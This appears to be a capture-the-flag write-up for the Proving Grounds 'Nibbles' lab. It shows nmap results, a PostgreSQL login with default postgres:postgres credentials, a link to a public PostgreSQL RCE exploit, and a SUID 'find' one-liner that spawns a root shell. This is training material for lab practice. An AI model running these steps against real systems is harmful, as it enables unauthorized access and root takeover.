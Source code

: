 ```yaml
---
title: "Proving grounds Practice: Nibbles"
layout: post
date: 2024-01-05 02:00
categories: writeup
---
```


Proving grounds Practice - Nibbles CTF writeup.

# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.38 ((Debian))
5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9
```

## 21/tcp   open  ftp        vsftpd 3.0.3

- Anonymous login prohibited.
 - user:system = failed.

- vsftpd v3.0.3 not vulnerable tp RCE.

Moving to next port.

## 80/tcp   open  http       Apache httpd 2.4.38 ((Debian))

Nothing here!

## 5437/tcp open  postgresql PostgreSQL DB 11.3 - 11.9

PostgreSQL 11.7 (Debian 11.7-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit

Connecting postgresql db using default credentials `postgres:postgres`.

```sh
psql -U postgres -h 192.168.156.47 -p 5437
```

### GitHub Exploit

- https://github.com/kashif-23/modified-public-exploits/blob/main/postgresqlversions_9.3-11.7-RCE.py

![img](/assets/images/CTF/Proving_Grounds/Nibbles/IF.png)

Initial Foothold obtained.

## Privilege Escalation

Enumerate SUIDs `$ find / -perm -u=s -type f 2>/dev/null`.

```sh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/find	#vulnerable to exploit
/usr/bin/sudo
/usr/bin/umount
```

#### GTFO Bins Exploit

```sh
./find . -exec /bin/sh -p \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/Nibbles/Root.png)

**Root Obtained**

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
